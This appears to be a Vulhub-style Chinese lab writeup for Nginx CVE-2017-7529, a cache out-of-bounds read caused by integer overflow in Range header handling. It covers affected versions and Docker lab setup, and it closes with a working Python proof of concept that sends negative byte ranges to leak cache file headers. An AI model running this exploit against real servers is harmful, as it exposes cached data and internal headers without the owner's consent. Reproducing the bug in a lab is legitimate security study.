

# Nginx越界读取缓存漏洞 CVE-2017-7529 

## 漏洞描述

参考阅读：

- https://cert.360.cn/detailnews.html?id=b879782fbad4a7f773b6c18490d67ac7
- [http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://galaxylab.org/cve-2017-7529-nginx整数溢出漏洞分析/)

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 漏洞影响

```
Nginx version 0.5.6 - 1.13.2
```

## 环境搭建

Vulhub运行测试环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

## 漏洞复现

调用`python3 poc.py http://your-ip:8080/`，读取返回结果：



可见，越界读取到了位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```

